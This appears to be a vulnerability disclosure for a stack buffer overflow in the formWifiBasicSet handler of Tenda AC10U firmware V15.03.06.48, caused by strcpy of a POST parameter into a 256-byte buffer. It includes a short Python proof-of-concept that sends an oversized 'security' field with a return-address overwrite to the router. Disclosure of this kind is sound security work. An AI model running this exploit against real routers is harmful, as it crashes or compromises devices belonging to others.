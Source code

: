 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware  V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 V15.03.06.48 firmware has a stack overflow vulnerability in the `formWifiBasicSet` function. The `security` variable receives the `security` parameter from a POST request and is later assigned to the `param` variable, which is fixed at 256 bytes. However, since the user can control the input of `security`, the statement `strcpy(param, security);` can cause a buffer overflow. The user-provided `security` can exceed the capacity of the `param` array, triggering this security vulnerability.

![image-20240309195441696](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195441696.png)

![image-20240309195419761](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195419761.png)

![image-20240309195402169](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240309195402169.png)

## PoC

```python
import requests
from pwn import *

url = 'http://192.168.84.101/goform/WifiBasicSet'
payload = b'a' * 500 + p32(0xdeadbeef)
data = {
    'security_5g':'1', 
    'hideSsid':'1', 
    'ssid':'1',
    'security':payload, 
    'wrlPwd':'1', 
    'hideSsid_5g':'1', 
    'ssid_5g':'1', 
    'wrlPwd_5g': '1'
}

requests.post(url, data=data)
```

![image-20240304213056127](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240304213056127.png)
